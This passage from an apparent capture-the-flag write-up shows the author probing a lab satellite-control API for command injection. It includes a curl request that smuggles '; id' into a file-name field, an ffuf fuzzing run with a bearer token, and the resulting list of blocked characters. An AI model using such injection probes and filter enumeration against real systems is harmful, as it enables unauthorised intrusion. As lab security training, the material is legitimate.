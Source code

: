 This app is supposed to be telling the satellite to take an image and then saving it. This error might come from the satellite.

### Command Injection

#### Bad Characters

If I try to include a command injection in the `output_file`, it complains of bad characters:

```

oxdf@hacky$ curl app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.png; id"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token"
{"error":"Output file path contains dangerous characters"}

```

I can fuzz with `ffuf` to look for a list of blocked characters, using `-mr dangerous` to show only responses with the blocked message:

```

oxdf@hacky$ ffuf -u http://app.bigbang.htb:9090/command -d '{"command": "send_image", "output_file": "test.pngFUZZ"}' -H "Content-Type: application/json" -H "Authorization: Bearer $token" -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr dangerous

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://app.bigbang.htb:9090/command
 :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/alphanum-case-extra.txt
 :: Header           : Content-Type: application/json
 :: Header           : Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczODM3MTc1NCwianRpIjoiMzYyZjQ2NzAtODhhNS00NWQyLTlhNjEtZTJhNjAxZDY1NDViIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczODM3MTc1NCwiY3NyZiI6ImQ2MjZmYWM2LTI0Y2EtNDk3NC04MDZkLWVhMmU1OTI5MTg2ZSIsImV4cCI6MTczODM3NTM1NH0.Z2_3JuJWlW8ZuxDKMVn4opXMPWYQQFbPxYwrR3lSXLo
 :: Data             : {"command": "send_image", "output_file": "test.pngFUZZ"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: dangerous
________________________________________________
*                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 191ms]
+                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 191ms]
'                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 220ms]
!                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 225ms]
%                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 226ms]
$                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 226ms]
)                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 220ms]
(                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 213ms]
>                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 260ms]
#                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 257ms]
&                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 295ms]
?                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 302ms]
;                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 310ms]
<                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 340ms]
[                       [Status: 400, Size: 59, Words: 6, Lines: 2, Duration: 234ms]
```